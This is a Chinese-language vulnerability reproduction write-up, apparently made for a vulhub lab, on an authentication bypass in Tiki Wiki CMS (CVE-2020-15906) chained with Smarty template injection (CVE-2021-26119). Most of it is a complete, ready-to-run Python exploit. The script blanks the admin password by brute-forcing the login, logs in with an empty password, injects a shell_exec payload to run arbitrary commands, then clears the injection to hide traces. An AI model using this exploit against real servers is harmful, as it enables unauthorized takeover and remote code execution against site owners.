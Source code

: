 # Tiki Wiki CMS组件认证过绕过漏洞（CVE-2020-15906）(CVE-2021-26119)

###### by ADummy

### 0x00利用路线

​			爆破50次密码--->burpsuite抓包--->修改pass字段为空（坑点 记录好ticket，session，cookie）

### 0x01漏洞介绍

​			在以下这些版本21.2，20.4，19.3，18.7，17.3，16.4前存在一处逻辑错误，管理员账户被爆破60次以上时将被锁定，此时使用空白密码即可以管理员身份登录后台。

### 0x02漏洞复现

P牛写的poc

payload：

```
import requests
import sys
import re

def auth_bypass(s, t):
    d = {
        "ticket" : "",
        "user" : "admin",
        "pass" : "trololololol",
    }
    h = { "referer" : t }
    d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
    d["pass"] = "" # blank login
    r = s.post("%stiki-login.php" % t, data=d, headers=h)
    r = s.get("%stiki-admin.php" % t)
    assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

def black_password(s, t):
    uri = "%stiki-login.php" % t
    # setup cookies here
    s.get(uri)
    ticket = get_ticket(s, uri)
    d = {
        'user':'admin', 
        'pass':'trololololol',
    }
    # crafted especially so unsuccessful_logins isn't recorded
    for i in range(0, 51):
        r = s.post(uri, d)
        if("Account requires administrator approval." in r.text):
            print("(+) admin password blanked!")
            return
    raise Exception("(-) auth bypass failed!") 

def get_ticket(s, uri):
    h = { "referer" : uri }
    r = s.get(uri)
    match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
    assert match, "(-) csrf ticket leak failed!"
    return match.group(1)

def trigger_or_patch_ssti(s, t, c=None):
    # CVE-2021-26119
    p = { "page": "look" }
    h = { "referer" : t }
    bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
    d = {
        "ticket" : get_ticket(s, "%stiki-admin.php" % t),
        "feature_custom_html_head_content" : bypass if c else '',
        "lm_preference[]": "feature_custom_html_head_content"
    }
    r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
    r = s.get("%stiki-index.php" % t)
    if c != None:
        assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
        cmdr = r.text.split("startrce")[1].split("endrce")[0]
        print(cmdr.strip())

def main():
    if(len(sys.argv) < 4):
        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
        print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
        return
    p = sys.argv[2]
    c = sys.argv[3]
    p = p + "/" if not p.endswith("/") else p
    p = "/" + p if not p.startswith("/") else p
    t = "http://%s%s" % (sys.argv[1], p)
    s = requests.Session()
    print("(+) blanking password...")
    black_password(s, t)
    print("(+) getting a session...")
    auth_bypass(s, t)
    print("(+) auth bypass successful!")
    print("(+) triggering rce...\n")
    # trigger for rce
    trigger_or_patch_ssti(s, t, c)
    # patch so we stay hidden
    trigger_or_patch_ssti(s, t)

if __name__ == '__main__':
    main()
```

靶场内可以直接打。

![Tiki_Wiki_CMS_认证绕过RCE利用链_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Tiki_Wiki_CMS_认证绕过RCE利用链_1.jpg)

### 0x03参考资料

https://srcincite.io/pocs/cve-2021-26119.py.txt